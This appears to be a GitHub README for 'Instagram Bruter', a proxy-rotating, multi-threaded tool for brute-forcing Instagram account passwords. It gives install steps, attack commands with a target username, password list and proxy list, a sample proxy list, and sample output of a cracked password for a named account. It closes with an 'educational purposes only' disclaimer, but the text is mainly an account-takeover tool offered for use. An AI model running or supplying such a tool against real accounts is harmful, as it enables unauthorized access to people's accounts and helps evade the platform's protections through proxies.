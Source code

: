https://www.instagram.com/sreejareddy_.19?igsh=ZG9na3hpc3NvbWgw
# Instagram Bruter

  

## Description

Instagram Bruter is a password brute-force tool designed to test the security of Instagram accounts. It automates login attempts using a list of passwords and proxies.

## Getting Started  
**Star** this repository to show your support, hit **Fork**, and dive right in!


## Author


Original Authors:
- **Hackertrackersj**
- **OBITORASU**
- **TermuxHackz**

Modified/Updated Version By:
- [**Pralin Khaira**](https://github.com/pralinkhaira)

## Features

- Multi-threaded brute-force attack

- Proxy support for anonymity

- Session resume functionality

- Password list-based attack

- Proxy pruning and statistics tracking

  

## Requirements

- Python 3.9+

- Proxy list

  

## Install Dependencies

  

### Install Pipenv

  

```
pip install pipenv
```

  

### Create Environment

  

Make sure you have Python 3.9 installed

  

```
pipenv --python 3.9
```

  

### Install Requirements

  

```
pipenv install
```

  

## Usage

```sh
python  instagram.py  -u <username> -p <password_list.txt> -px <proxy_list.txt> -m <mode>
```

### Options:

-  `-u, --username` : Target Instagram username or email

-  `-p, --passlist` : Path to password list file

-  `-px, --proxylist` : Path to proxy list file

-  `-m, --mode` : Attack mode (0 to 3, where 0 = 32 bots, 3 = 4 bots)

-  `--prune` : Prune the proxy database (value between 0 and 1)

-  `--stats` : Show proxy statistics

-  `-nc, --no-color` : Disable color output

  

## Example

```sh
python  instagram.py  -u  target_user  -p  passwords.txt  -px  proxies.txt  -m  2
```

  

## Proxies

  

The system needs a list of proxies to work. Once uploaded, proxies are saved into a database.

  

### Upload Proxies

  

Upload a list of proxies into the program. The proxy file must have a format of `ip:port`

  

Example `proxies_list.txt`:

```
3.238.111.248:80
206.189.59.192:8118
165.22.81.30:34100
176.248.120.70:3128
191.242.178.209:3128
180.92.194.235:80
```

  

To upload a list of proxies, use:

```
python instagram.py -px <path to proxy list>
```

  

### Proxy Statistics

  

Gives an insight into the health of the proxies in the database.

```
python instagram.py --stats
```

  

### Prune Proxies

  

Removes proxies with a score below a given threshold. It is recommended to prune the database of proxies with a score below `Q1`.

```
python instagram.py --prune 0.05
```

  

## Running the Tool

  

### Start Attack

```
python instagram.py -u <username> -p <passlist>
```

### Example Output (During Attack)

```
[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: 272
[-] Complete: 45.51%
[-] Attempts: 228
[-] Browsers: 273
[-] Exists: True
```

### Example Output (Successful Attempt)

```

[-] Wordlist: passlist.txt
[-] Username: Sami09.1
[-] Password: Sami123
[-] Complete: 62.67%
[-] Attempts: 314
[-] Browsers: 185
[-] Exists: True

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123

```

  

## Disclaimer

This tool is for educational purposes only. Unauthorized use against accounts you do not own is illegal.
